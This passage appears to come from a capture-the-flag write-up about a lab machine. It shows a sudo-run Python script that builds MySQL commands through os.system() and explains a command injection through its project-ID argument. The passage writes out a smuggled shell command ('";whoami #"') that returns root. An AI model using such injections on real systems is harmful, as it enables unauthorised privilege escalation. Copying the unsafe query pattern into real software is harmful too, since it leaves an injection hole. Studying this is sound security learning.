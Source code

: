 ```python

    if arg_project_id and arg_project_status: # To update
        # Avoid update by error
        if os.geteuid() == 0:
            array_status = ["Done", "Doing", "To do"]
            if arg_project_status in array_status:
                print("[+] Before update project (" + arg_project_id + ")\n")
                query_by_id(arg_project_id)

                if arg_project_status == 'Done':
                    update_status(date.today(), arg_project_id, arg_project_status)
                else:
                    update_status(0, arg_project_id, arg_project_status)
            else:
                print("Bro, avoid a fail: Done - Doing - To do")
                exit(1)

            print("\n[+] New status of project (" + arg_project_id + ")\n")
            query_by_id(arg_project_id)
        else:
            print("Ejejeeey, avoid mistakes!")
            exit(1)

    elif arg_project_id:
        query_by_id(arg_project_id)
    else:
        query_all()

# Variables ------------------------------------------------.
db_user = "carlos"
db_name = "blog"

# Main program
main()
```

This Python script appears to run SQL queries by os.system() function instead of using the Python built-in module for SQL. This script takes two inputs, the first input arg_project_id is used to build the SQL query passed to the -e parameter of the mysql command while the second input arg_project_status is simply used in a conditional statement. Our interest here will be to inject commands in the arg_project_id input since no verification is done. We will attempt to create malformed SQL queries and execute commands on the system since the os.system() function's primary role is to execute system commands and not SQL queries.
```bash
carlos@literal:~$ sudo /opt/my_things/blog/update_project_status.py '";whoami #"' 'To do'
[+] Before update project (";whoami #")

<SNIP>
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
root
```
